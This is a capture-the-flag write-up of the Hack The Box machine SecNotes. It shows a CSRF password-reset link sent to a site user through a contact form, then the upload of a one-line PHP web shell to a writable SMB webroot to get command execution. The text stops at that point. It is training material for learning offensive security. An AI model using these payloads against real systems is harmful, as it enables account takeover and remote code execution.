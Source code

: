 SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP reverse shell. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

